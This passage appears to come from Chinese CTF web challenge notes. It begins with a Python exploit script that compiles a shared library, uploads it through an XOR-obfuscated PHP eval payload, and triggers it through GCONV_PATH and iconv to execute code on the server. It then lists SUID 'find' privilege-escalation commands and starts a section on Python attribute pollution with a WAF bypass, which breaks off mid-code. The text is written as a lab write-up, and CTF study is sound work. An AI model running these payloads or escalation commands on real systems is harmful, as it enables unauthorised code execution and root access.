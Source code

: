 			  gconv_content = encoder.base64_encode("""\
			  module  exp//    INTERNAL    /var/www/html/exp    2
			  module  INTERNAL   exp//    /var/www/html/exp    2
			  """)
			  
			  shell.exec("rm exp.so; gcc exp.c -o exp.so -shared -fPIC")
			  print(shell.exec("md5sum exp.so"))
			  with open("exp.so", "rb") as f:
			      b = encoder.base64_encode(f.read())
			  
			  eval_payload = """
			  var_dump('start');
			  @unlink('exp.so');
			  file_put_contents('exp.so', base64_decode('EXP_CONTENT'));
			  file_put_contents('gconv-modules', base64_decode('GCONV_CONTENT'));
			  echo md5_file('exp.so');
			  sleep(0.5);
			  putenv("GCONV_PATH=/var/www/html/");
			  iconv("exp", "UTF-8", "");
			  
			  $a=new DirectoryIterator("glob:///tmp/t*");
			  foreach($a as $f){
			  	echo $f.' ';
			  }
			  highlight_file('/tmp/t.txt');
			  var_dump('stop');
			  """.replace("EXP_CONTENT", b).replace("GCONV_CONTENT", gconv_content)
			  payload = """
			  ('@$@@V@#@#@@V@@@'^'#V%!"%|&V.#")/.')('',('@@V@@vev,e%vv%@V@!v^|'^'=% !,^A)|*v"-A!"!|_e_'));
			  """.strip()
			  r = base_post(url, params = {
			      "data": payload
			  }, data = {
			      "data": eval_payload
			  })
			  print(r.url)
			  print(r.text)
			  ```
	- 然后find提权
		- 寻找特殊权限的文件`find / -perm -u=s -type f 2>/dev/null`看到find
		- find提权方式：
			- ```shell
			  find . -exec whoami \; -quit
			  find . -exec sh -cp 'whoami' \; -quit
			  find . -exec sh -p \; -quit
			  ```
- # ezpython
  collapsed:: true
	- 参考
		- [[CTFWEB/Python/Python的原型链污染]]
	- 思路
		- 用python原型链污染伪造`isvip`
		- 用unicode编码绕过waf
		- fuzz绕过奇葩的num参数
	- python的原型链污染（我更愿意叫“属性污染”）
		- 需要伪造其中的`isvip`来通过检测
			- ```python
			  class User:
			      def __init__(self):
			          self.username = ""
			          self.password = ""
			          self.isvip = False
			  